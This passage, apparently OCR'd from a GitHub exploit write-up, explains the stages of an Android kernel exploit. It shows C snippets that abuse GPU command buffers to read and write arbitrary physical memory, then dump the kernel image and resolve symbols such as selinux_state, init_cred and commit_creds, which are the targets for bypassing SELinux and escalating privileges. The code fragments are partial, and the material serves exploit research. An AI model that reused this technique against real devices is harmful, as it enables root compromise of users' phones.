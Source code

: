 
### 3. Arbitrary Kernel Read/Write

With the page tables in place, the exploit submits GPU command buffers that perform memory operations on the mapped physical addresses.

#### Example: Arbitrary Read

```c
DoWrite(fd, ctx_id, payload_buf, payload_gpuaddr, phyaddr, kFakeGpuAddr + 0x1100,
        /*write=*/false, kFakeGpuAddr + (target_read_physical_address & 0xfffull), 1, NULL);
```

#### Example: Arbitrary Write

```c
DoWrite(fd, ctx_id, payload_buf, payload_gpuaddr, phyaddr, kFakeGpuAddr + 0x1100,
        /*write=*/true, kFakeGpuAddr + (target_write_physical_address & 0xfffull), 2, (uint32_t*)&tramp_pte_value);
```

The `DoWrite` function crafts a command buffer that either copies data from the target address (read) or writes data to it (write), using GPU instructions like `CP_MEM_WRITE` and `CP_MEM_TO_MEM`.

---

### 4. Kernel Dump and Symbol Resolution

Once arbitrary read is achieved, the exploit maps the kernel's physical memory and copies it into user space. This allows for:

- Dumping the kernel image for analysis
- Locating important kernel symbols (e.g., `selinux_state`, `init_cred`, `commit_creds`) using kallsyms parsing

#### Kernel Dump

```c
void* kernel_copy_buf = malloc(kernel_size);
memcpy(kernel_copy_buf, kernel_physical_base, kernel_size);
FILE* f = fopen("/data/local/tmp/kernel_dump", "w");
fwrite(kernel_copy_buf, 1, kernel_size, f);
fclose(f);
```

#### Kallsyms Lookup

The included `kallsyms_lookup.c` parses the in-memory kernel image to resolve symbol addresses:

```c
struct exploit_kallsyms_lookup kallsyms_lookup;
exploit_create_kallsyms_lookup(&kallsyms_lookup, kernel_copy_buf, kernel_size);
uint64_t selinux_state_addr = exploit_kallsyms_lookup(&kallsyms_lookup, "selinux_state");
```

---
